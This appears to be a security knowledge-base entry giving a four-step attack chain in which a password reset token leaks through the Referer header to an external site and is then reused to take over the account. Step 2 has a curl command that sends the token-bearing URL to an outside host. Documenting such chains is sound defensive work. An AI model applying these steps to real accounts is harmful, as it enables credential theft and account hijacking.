

---
tags:
  - information-disclosure
  - referer-leakage
  - password-reset-token
  - csrf
  - account-takeover
type: attack_chain
tools:
  - '[[tools/Firefox-Browser]]'
tactics:
  - '[[Credential Access]]'
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-Password-Reset-Page-with-Token]]'
  - '[[procedures/Trigger-Referer-Header-Leakage-to-External-Site]]'
  - '[[procedures/Capture-Leaked-Reset-Token-from-Referer]]'
  - '[[procedures/Exploit-Leaked-Token-for-Password-Reset-and-Login]]'
step_count: 4
techniques:
  - '[[Unsecured Credentials]]'
  - '[[Valid Accounts]]'
updated_at: '2025-12-14T17:25:12.918Z'
description: >-
  An attack chain exploiting the disclosure of a sensitive password reset token
  through the HTTP referer header when a user navigates from a password reset
  page to an external site, enabling an attacker to hijack the reset process and
  gain unauthorized account access.
skill_level: intermediate
impact_level: high
id: 9de771f3-832a-4702-9acb-8c691a8a2d56
validated: true
mitre_tactics:
  - '[[Credential Access]]'
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Unsecured Credentials]]'
  - '[[Valid Accounts]]'
---
# Password Reset Token Disclosure via Referer Header Leakage Leading to Account Takeover

Multi-stage attack chain demonstrating the exploitation of referer header leakage on a password reset page to disclose a sensitive token, followed by unauthorized password reset and account login.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Firefox-Browser]]

### Target Environment

- Web application with password reset functionality (e.g., HackerOne-like platform)
- Control over an external site to log referer headers
- No special ports or services required beyond standard HTTP/HTTPS

### Initial Access Requirements

- Attacker must control an external domain (e.g., a site like xkcd.com for simulation)
- User must have initiated a password reset (via email link with token)
- Network access to the target web app and external site

## Detailed Attack Procedures

### Step 1: Access Password Reset Page
procedure: [[procedures/Access-Password-Reset-Page-with-Token]]

**Objective**: Simulate or induce the user to visit the password reset page containing the sensitive token in the URL query parameter.

**Instructions**: The process begins with the user receiving an email containing a password reset link. This link includes the reset token as a query parameter. Direct the user (or simulate) to access this URL without entering a new password yet.

**Expected Output**: Browser loads the password reset form at `/users/password/edit?reset_password_token=TOKEN`.

**Success Indicators**:
- URL in browser address bar shows the token parameter
- Page displays password reset form fields

### Step 2: Trigger Referer Header Leakage
procedure: [[procedures/Trigger-Referer-Header-Leakage-to-External-Site]]

**Objective**: Cause a cross-domain navigation from the reset page to an attacker-controlled external site, leaking the full reset URL (including token) in the referer header.

**Instructions**: From the loaded reset page, click a link to an external site (e.g., embed or place a link to `xkcd.com/936/`). Use [[commands/curl-simulate-leakage]] to simulate the request if not using a real browser:

```bash
curl -H "Referer: https://hackerone.com/users/password/edit?reset_password_token=HERE_IS_THE_VALUE_OF_RESET_PASSWORD_TOKEN" -A "Mozilla/5.0 (Windows NT 6.2; WOW64; rv:25.0) Gecko/20100101 Firefox/25.0" http://xkcd.com/936/
```

Then, in a browser like [[tools/Firefox-Browser]], navigate manually to confirm.

**Expected Output**: HTTP GET request sent to external site with referer header containing the token.

**Success Indicators**:
- External site logs show referer with token
- No errors in navigation

### Step 3: Capture Leaked Reset Token
procedure: [[procedures/Capture-Leaked-Reset-Token-from-Referer]]

**Objective**: Log and extract the password reset token from the referer header on the attacker's external server.

**Instructions**: Monitor server logs on the external site for incoming requests. The referer header will include the full URL: `https://hackerone.com/users/password/edit?reset_password_token=TOKEN`. Parse the logs to isolate the token value.

**Expected Output**: Extracted token string from log entry, e.g., `HERE_IS_THE_VALUE_OF_RESET_PASSWORD_TOKEN`.

**Success Indicators**:
- Token parameter visible in referer log
- Token is valid and unexpired

### Step 4: Exploit Leaked Token for Password Reset and Login
procedure: [[procedures/Exploit-Leaked-Token-for-Password-Reset-and-Login]]

**Objective**: Use the captured token to submit a password reset form, change the user's password, and automatically log in without additional authentication.

**Instructions**: Visit the leaked reset URL directly (e.g., `https://hackerone.com/users/password/edit?reset_password_token=TOKEN`). Fill in a new password and submit the form. Due to the lack of CSRF protection, the submission succeeds without an authenticity token.

**Expected Output**: Password updated successfully, automatic redirect to logged-in dashboard.

**Success Indicators**:
- New password set
- Attacker logged in as the victim user

## Attack Chain Summary

### Key Achievements

1. Successful leakage of sensitive reset token via referer header
2. Bypass of password reset protections due to missing CSRF token
3. Full account takeover without user interaction post-leak

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unsecured Credentials]] Unsecured Credentials
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Credential Access]] Credential Access
- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
